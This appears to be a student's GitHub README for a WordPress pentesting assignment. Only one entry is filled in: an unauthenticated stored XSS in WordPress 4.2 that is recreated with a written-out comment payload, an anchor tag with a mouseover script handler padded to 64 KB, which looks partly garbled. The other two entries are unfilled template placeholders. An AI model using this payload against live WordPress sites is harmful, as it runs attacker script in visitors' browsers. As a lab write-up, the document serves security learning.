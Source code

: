 # Project 7 - WordPress Pentesting

Time spent: 12 hours spent in total

> Objective: Find, analyze, recreate, and document 3 vulnarabilities affecting an old version of WordPress

## Pentesting Report

1. 4.2 - Unauthenticated Corss-Site Scripting (XSS)
  - [x] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.2.1
  - [ ] GIF Walkthrough: ![](https://github.com/aragon0118/Week-7-Best-HACKER/blob/master/XSS%20Week%207.gif)
  - [x] Steps to recreate: Commented with the following string and replaced ...[64 KB]... with 65536 A's (characters) 
  <a title='x onmouseovlert(unescape(/BEST%20HACKER/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px  AAAAAAAAAAAA...[64 kb]..AAA'></a>er=a
  - [ ] Affected source code:
    - [Link 1]
2. Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
3. Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)

## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

Describe any challenges encountered while doing the work

## License

    Copyright [yyyy] [name of copyright owner]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
